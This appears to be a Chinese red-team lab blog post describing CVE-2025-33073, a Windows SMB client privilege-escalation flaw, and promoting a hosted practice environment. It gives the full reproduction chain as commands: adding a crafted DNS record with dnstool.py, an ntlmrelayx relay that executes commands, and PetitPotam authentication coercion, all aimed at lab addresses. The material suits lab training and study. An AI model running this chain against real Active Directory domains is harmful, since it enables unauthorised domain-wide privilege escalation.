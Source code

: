 #  CVE-2025-33073：域内大杀器（附复现环境）  
cslab  红队蓝军   2025-06-19 09:54  
  
## 漏洞背景  
  
2025年6月10日，微软发布了每月例行的安全补丁更新。在此次更新中，编号为CVE-2025-33073的严重漏洞引起了业界广泛的关注和重视。微软官方对该漏洞的描述为SMB客户端特权提升漏洞。然而，经过深入分析发现，该漏洞的威胁程度远远超出了普通意义上的“权限提升”范畴。  
> 该漏洞存在于Windows SMB中，由于访问控制不当，具有普通域用户权限的攻击者可以通过添加恶意的DNS记录并强制域内计算机(域控除外)进行解析来获取域内所有用户的权限，从而达到提权的目的。  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5qicBZPD0J0Xibegicb7XKoSkdZmRcIB0zxocWWe9aCicDxYa7GfvLftUAA/640?wx_fmt=png&from=appmsg "")  
  
## 环境搭建  
  
**目前CyberStrikeLab仿真平台已支持漏洞复现，现在访问即可限时免费轻松复现~**  
  
**靶机地址：https://www.cyberstrikelab.com/#/scene/detail/42**  
- 攻击机器kali：10.6.6.10   （  
所有需要用到的工具均已集成在机器中）  
  
- 受害机器：10.6.6.88(CS.cyberstrikelab.com)  
  
- DC：10.6.6.55 (DC.cyberstrikelab.com)  
  
## 复现步骤  
### 1.打开平台，点击开启仿真环境靶机  
  
地址：https://www.cyberstrikelab.com/#/scene/detail/42  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5fa2y4MKwAmwD13UI5XXicFqDNK4WaFumqtWm6ZxTIkxs2TCFpducnbw/640?wx_fmt=png&from=appmsg "")  
  
### 2.开启后下载openvpn配置文件并连接openvpn  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5sMFRfpkc8PYko4421RX39Yde8icnUqrOfC7RTPoFU0gv6Nx4lB8EYYQ/640?wx_fmt=png&from=appmsg "")  
  
### 3.使用ssh工具连接攻击机器kali  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5H7JmCGMbjRw3uwX33hbGv5WedgsiaOib0XCphXFbwwKrgKQEsqh8OaicQ/640?wx_fmt=png&from=appmsg "")  
  
### 4.添加一条DNS记录  
```
python3 dnstool.py -u cyberstrikelab.com\\cslab -p "cs1ab@wwe" -r CS1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.6.6.10 --action add 10.6.6.55
```  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5JoHk8rR8YEClfMoBzWCwMAGflnAIWNZL6BCndPMyBQ4wjSkURmp6EA/640?wx_fmt=png&from=appmsg "")  
  
### 5.启动监听  
```
python3 ntlmrelayx.py -t 10.6.6.88 -smb2support -ts -c whoami
```  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5DW7R1287iaQgAREqF8QibHNIc7biccm7O23whBJDqlC9sva2nx1clQGoQ/640?wx_fmt=png&from=appmsg "")  
  
### 6.进行强制NTLM认证  
```
python3 PetitPotam.py -d cyberstrikelab.com -u cslab -p cs1ab@wwe CS1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 10.6.6.88
```  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5VAEe529CnjWWWuf39TctX2etyDJ8hES2icVnibPibSljFZHfGJlBVVLEA/640?wx_fmt=png&from=appmsg "")  
  
### 7.回显命令  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe59pwUCkHyJaB0PO2fCoLshad2RHr3iaETFiaQBSYVfYSYGLwv9k84YNKg/640?wx_fmt=png&from=appmsg "")  
  
当然这里我们也给大家准备了flag，大家可以在平台上提交  
## 限时福利  
1. 72小时免费开启  
  
1. 转发本推文朋友圈集10个赞，发送截图至公众号后台兑换24小时高级会员，有效期本周内  
  
关注下方公众号，不定期领取各种福利  
  
  
